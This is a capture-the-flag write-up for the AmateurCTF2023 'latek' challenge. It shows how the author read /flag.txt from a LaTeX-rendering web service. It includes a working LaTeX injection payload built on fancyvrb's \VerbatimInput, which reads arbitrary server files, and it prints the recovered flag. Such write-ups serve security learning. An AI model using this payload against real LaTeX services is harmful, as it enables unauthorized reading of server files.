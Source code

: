 ```yaml
---
title: CTFs | AmateurCTF2023 | latek
author: BatBato
date: 2023-07-19
categories: [CTFs, AmateurCTF2023, latek]
tags: [CTF, AmateurCTF2023, latek]
permalink: /CTFs/AmateurCTF2023/latek
---
```


# Latek

I haven't tried much in this CTF, so this is the only WU that I will write. For this challenge, we need to recover the `/flag.txt` file.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/a705bc02-0b0e-48c1-b1d2-63477a436583)

As we can see, we have access to a website that print what is written in the `latex` input on the left:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c405e76d-5e52-4ce3-be12-4756bb6456fd)

I tried some basic injections (found on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) like `/input(/flag.txt)`, but this didn't work as expected. After a bit of research, I found this [StackExchange](https://tex.stackexchange.com/questions/85200/include-data-from-a-txt-verbatim) post. I then used the following payload:

```latek
\documentclass{article}
\usepackage[dvipsnames]{xcolor}
\usepackage{fancyvrb}
% redefine \VerbatimInput
\RecustomVerbatimCommand{\VerbatimInput}{VerbatimInput}%
{fontsize=\footnotesize,
 %
 frame=lines,  % top and bottom rule only
 framesep=2em, % separation between frame and text
 rulecolor=\color{Gray},
 %
 label=\fbox{\color{Black}data.txt},
 labelposition=topline,
 %
 commandchars=\|\(\), % escape character and argument delimiters for
                      % commands within the verbatim
 commentchar=*        % comment character
}
\begin{document}
\VerbatimInput{/flag.txt}
\end{document}
```

And this gave me the flag: `amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/09f36f5e-e44e-45af-8c19-ffa21ced5f35)
